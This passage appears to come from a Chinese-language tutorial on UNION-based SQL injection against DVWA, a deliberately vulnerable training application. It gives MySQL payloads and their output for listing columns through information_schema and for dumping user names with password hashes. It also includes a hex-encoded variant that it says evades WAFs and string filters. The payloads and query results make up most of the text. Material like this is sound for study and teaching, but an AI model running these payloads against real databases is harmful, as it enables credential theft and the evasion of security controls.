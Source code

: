 ```bash
| 1          | guestbook,users                  |
+------------+----------------------------------+
2 rows in set (0.01 sec)

# 4.得到dvwa数据库中包含了guestbook,users两个数据表，之后要猜解字段名：
mysql> select first_name,password  from users where user_id = 1 union select 1,group_concat(column_name) from information_schema.COLUMNS where table_schema='dvwa' and table_name='users';
+------------+---------------------------------------------------------------------------+
| first_name | password                                                                  |
+------------+---------------------------------------------------------------------------+
| admin      | 5f4dcc3b5aa765d61d8327deb882cf99                                          |
| 1          | user_id,first_name,last_name,user,password,avatar,last_login,failed_login |
+------------+---------------------------------------------------------------------------+
2 rows in set (0.00 sec)
# 另外一种payload写法：
mysql> select first_name,password  from users where user_id = 1 union select 1,group_concat(column_name) from information_schema.COLUMNS where table_schema='dvwa' and table_name=0x7573657273;
+------------+---------------------------------------------------------------------------+
| first_name | password                                                                  |
+------------+---------------------------------------------------------------------------+
| admin      | 5f4dcc3b5aa765d61d8327deb882cf99                                          |
| 1          | user_id,first_name,last_name,user,password,avatar,last_login,failed_login |
+------------+---------------------------------------------------------------------------+
2 rows in set (0.00 sec)

# PS：(用编码就不用单引号，用单引号就不用编码）
# 使用十六进制编码（Hex编码）可以有效绕过基于字符串检测的安全机制和Web应用防火墙（WAF）
# 5.获取敏感用户信息
mysql> select first_name,password  from users where user_id = 1 union select group_concat(user),group_concat(password) from users;
+---------------------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| first_name                      | password                                                                                                                                                             |
+---------------------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| admin                           | 5f4dcc3b5aa765d61d8327deb882cf99                                                                                                                                     |
| admin,gordonb,1337,pablo,smithy | 5f4dcc3b5aa765d61d8327deb882cf99,e99a18c428cb38d5f260853678922e03,8d3533d75ae2c3966d7e0d4fcc69216b,0d107d09f5bbe40cade3de5c71e9e9b7,5f4dcc3b5aa765d61d8327deb882cf99 |
+---------------------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+
2 rows in set (0.00 sec)
# PS：其他payload写法
select first_name,password  from users where user_id = 1 union select 1,group_concat(concat_ws(char(32,58,32),user,password)) from users;

mysql> select first_name,password  from users where user_id = 1 union select 1,concat_ws(char(32,58,32),user,password) from users;
+------------+--------------------------------------------+
| first_name | password                                   |
+------------+--------------------------------------------+
| admin      | 5f4dcc3b5aa765d61d8327deb882cf99           |
| 1          | admin : 5f4dcc3b5aa765d61d8327deb882cf99   |
| 1          | gordonb : e99a18c428cb38d5f260853678922e03 |
| 1          | 1337 : 8d3533d75ae2c3966d7e0d4fcc69216b    |
| 1          | pablo : 0d107d09f5bbe40cade3de5c71e9e9b7   |
```
